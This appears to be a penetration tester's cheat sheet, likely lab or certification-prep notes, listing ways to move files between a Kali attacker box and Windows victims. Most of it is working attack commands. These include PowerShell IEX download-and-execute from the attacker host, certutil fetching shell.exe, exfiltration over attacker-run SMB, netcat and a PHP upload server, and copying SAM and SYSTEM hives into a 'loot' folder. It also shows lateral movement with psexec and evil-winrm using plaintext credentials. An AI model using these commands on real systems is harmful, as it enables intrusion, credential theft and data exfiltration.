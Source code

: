 # Transferring Files

Nothing is 100% bullet-proof. This is why I have several options to accomplish this.
1- As already mentioned, impacket-smbserver -smb2support test . is gold.
2- python -m pyftpdlib -w will spawn a ftp server on you kali. use the ftp command on windows to transfer the file(s).
3- On Kali: nc -lvp 4444 > TransferedFile on Windows: nc.exe <kali_ip> 4444 -w 5 < FileToTransfer
4- Using powercat + powershell. Host powercat.ps1(link: https://github.com/besimorhino/powercat/blob/master/powercat.ps1) in a webserver on the attacker machine. Execute powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer" On kali: wget http://windows-ip:4444/FileToTransfer
5- Host the below php on a php-enabled webserver on kali:

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same:

powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')


### Powershell Linux to Windows
````
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:800/chisel.exe','C:\Windows\Tasks\chisel.exe')
````
### SMB Linux to Windows
````
impacket-smbserver -smb2support Share .
cmd.exe /c //<your kali IP>/Share/<file name you want>
````
````
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\<your kali IP>\share /u:df df
copy \\<your kali IP>\share\<file wanted>
````
````
impacket-smbserver -smb2support Share .
net use \\<your kali IP>\share
copy \\<your kali IP>\share\whoami.exe
````
### Windows http server Linux to Windows
````
python3 -m http.server 80
certutil -urlcache -split -f http://<your kali IP>/shell.exe C:\\Windows\temp\shell.exe
````
````
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
````
#### Errors
````
Access is denied. In this case try Invoke-WebRequest for powershell
````
### SMB Shares Windows to Windows
````
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
````
#### Accessing $C Drive of Computer A
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
````
#### Copying over files
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
````
### SMB Server Bi-directional
````
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
````
#### Authenticated
````
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
````
````
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\<file wanted>
````

### PHP Script Windows to Linux
````
cat upload.php
chmod +x upload.php
````
````
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
````
````
sudo mkdir /var/www/uploads
````
````
mv upload.php /var/www/uploads
````
````
service apache2 start
ps -ef | grep apache
`````
````
powershell (New-Object System.Net.WebClient).UploadFile('http://<your Kali ip>/upload.php', '<file you want to transfer>')
````
````
service apache2 stop
````
